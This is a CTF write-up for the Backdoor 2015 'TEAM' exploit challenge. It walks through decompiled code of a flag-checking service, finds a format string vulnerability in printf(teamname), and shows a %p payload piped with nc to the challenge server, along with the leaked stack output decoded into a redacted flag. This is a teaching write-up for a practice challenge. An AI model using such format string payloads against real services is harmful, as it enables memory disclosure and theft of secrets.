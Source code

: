 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - TEAM Writeup"
date: 2015-04-03 03:16:39 +0430
comments: true
categories: ctf backdoor exploit fmt leak
---
```


**Backdoor 2015 TEAM Writeup**  
**Point = 600**  
**Category = Exploit**  

> There is a wierd kind of authentication service running: nc hack.bckdr.in 8004. The binary can be found here. The vampire says that there is no need for bruteforce.

```
$ file team
team: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=3fb6836dc9249bd1e7c33e023d563ff429d7dca4, stripped
$ checksec.sh --file team
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   team

```

Ok looking into the binary in IDA shows us two function `0x08048769` and `0x080486ad` are important to us. the first one can be seen bellow:
<!--more-->
```
int sub_8048769()
{
  const char *v0; // ST18_4@1
  const char *v1; // ST1C_4@1

  v0 = (const char *)malloc(0xC8u);
  v1 = (const char *)malloc(0x64u);
  printf("Enter teamname: ");
  fflush(stdout);
  __isoc99_scanf("%200s", v0);
  printf("Enter flag: ");
  fflush(stdout);
  __isoc99_scanf("%100s", v1);
  sleep(2u);
  sub_80486AD(v0, v1);
  free((void *)v0);
  free((void *)v1);
  return 0;
}
```
As you can see there is no potential flaw so we skip to second one:

```
signed int __cdecl sub_80486AD(const char *a1, const char *a2)
{
  signed int result; // eax@2
  int v3; // edx@7
  FILE *stream; // [sp+24h] [bp-74h]@1
  char s; // [sp+28h] [bp-70h]@3
  int v6; // [sp+8Ch] [bp-Ch]@1

  v6 = *MK_FP(__GS__, 20);
  stream = fopen("flag.txt", "r");
  if ( stream )
  {
    fgets(&s, 100, stream);
    printf(a1);
    if ( !strcmp(&s, a2) )
      puts(" : correct flag!");
    else
      puts(" : incorrect flag. Try again.");
    fclose(stream);
    result = 0;
  }
  else
  {
    result = 1;
  }
  v3 = *MK_FP(__GS__, 20) ^ v6;
  return result;
}
```

interesting! in this function flag.txt will be opened and read but the important part is `printf(a1);`. remember previous function `a1` is the `v0` var which have the teamname! So there is a *Format String Vulnerability*. And the abuse is pretty simple, just printing the stack addresses to leak the flag:

```
$ cat 5
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
A

$ cat 5 | nc hack.bckdr.in 8004
Enter teamname: Enter flag: 0x640x9dd11400xf770ec20(nil)0x10x9dd10d80x9dd10080xf773855c0x9dd11400x356633640x643630310x376531390x323461370x383565620x636135300x613835640x643862310x313164610x383766610x356363660x313833660x666432630x363336350x353335390x626631370x80483000x1(nil)0x1(nil)(nil)0xff8b30880xf772b5000x10x5fc69000(nil)(nil)0xff8b3088 : incorrect flag. Try again.
```

you can see that 
```
0x356633640x643630310x376531390x323461370x383565620x636135300x613835640x643862310x313164610x383766610x356363660x313833660x666432630x363336350x353335390x62663137
```
is our flag. using python `struct` module for all gives us this one:

```
[redacted]
```

which added 600pts to our points.

HAMIDx9
